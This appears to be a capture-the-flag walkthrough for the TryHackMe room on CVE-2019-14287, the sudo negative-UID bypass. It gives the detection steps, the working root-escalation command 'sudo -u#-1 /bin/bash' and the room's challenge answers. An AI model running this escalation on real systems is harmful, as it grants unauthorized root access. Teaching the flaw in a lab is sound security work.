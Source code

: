 ```yaml
---
title: Sudo Security Bypass - TryHackMe
published: 2020-08-16
description: 'A step-by-step guide to identifying and exploiting CVE-2019-14287 in the Unix Sudo Program.'
image: './cover.jpg'
tags: [TryHackMe,CVE, Sudo]
category: 'TryHackMe'
draft: false
---
```


## Introduction

This guide provides a detailed walkthrough for identifying and exploiting CVE-2019-14287, a privilege escalation vulnerability in the Unix Sudo program. This is Room One in the SudoVulns Series on TryHackMe, designed to teach security bypass techniques.

> **TryHackMe Room: Sudo Security Bypass**  
> A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series.  
> [Visit Room](https://tryhackme.com/room/sudovulnsbypass?source=post_page-----c78cb21aa0cb---------------------------------------)

## Task 1: Deploy

To begin, deploy the TryHackMe machine and connect to it using SSH with the following command, replacing `<port-number>`, `<username>`, and `<remote-machine-ip>` with the values provided by TryHackMe:

```bash
ssh -p <port-number> <username>@<remote-machine-ip>
```

:::note
Ensure you have the correct credentials and port number from the TryHackMe room instructions.
:::

## Task 2: Security Bypass

### Checking for Vulnerability

To determine if the target machine is vulnerable to CVE-2019-14287, first check the sudo configuration by running:

```bash
sudo -l
```

**Expected Output**:
```
User <username> may run the following commands on <hostname>:
    (ALL, !root) /bin/bash
```

If the output includes `(ALL, !root) /bin/bash`, the machine may be vulnerable, as this configuration allows the user to run `/bin/bash` as any user except `root`—a restriction that CVE-2019-14287 can bypass.

![sudo -l output](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dkduYM7DGoO1UrI6wC7STg.png)
*Image: Output of `sudo -l` showing the vulnerable configuration `(ALL, !root) /bin/bash`.*

To confirm vulnerability, check the sudo version:

```bash
sudo --version
```

![sudo version check](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tljqQqVfF7IUSVvIk_FJFA.png)
*Image: Checking the sudo version to confirm vulnerability (Sudo < 1.8.28).*

If the version is **Sudo < 1.8.28** (e.g., 1.8.27 or earlier), the machine is vulnerable. This is because CVE-2019-14287 exploits a flaw in how sudo handles negative user IDs.

:::note
This vulnerability was patched in Sudo version 1.8.28, released in October 2019.
:::

### Exploiting the Vulnerability

CVE-2019-14287 allows a user to bypass the `(ALL, !root)` restriction by specifying an invalid user ID (`-u#-1`), which sudo interprets as the root user due to improper validation. To exploit this, run:

```bash
sudo -u#-1 /bin/bash
```

![security bypass exploit](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*XxHCy_a432wtnCSVzlsVSQ.png)
*Image: Executing the exploit command `sudo -u#-1 /bin/bash` to gain a root shell.*

This command grants a root shell, as the `-u#-1` flag tricks sudo into running `/bin/bash` as the root user (UID 0).

### Capturing the Root Flag

With root access, navigate to the `/root` directory and read the `root.txt` file to retrieve the flag:

```bash
cd /root
cat /root.txt
```

![root flag](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*SPWk07gIDobGn4ljOGAq8g.png)
*Image: Displaying the root flag from `/root/root.txt`.*

The flag will be in the format `THM{...}`.

## Challenges

**#1. What command are you allowed to run with sudo?**  
**Answer**: `/bin/bash`

**#2. What is the flag in /root/root.txt?**  
**Answer**: `THM{l33t_********_******}`

## Conclusion

Congratulations! You’ve successfully identified and exploited CVE-2019-14287 to bypass sudo’s security restrictions and capture the root flag. This exercise demonstrates the importance of keeping software up to date to mitigate known vulnerabilities.


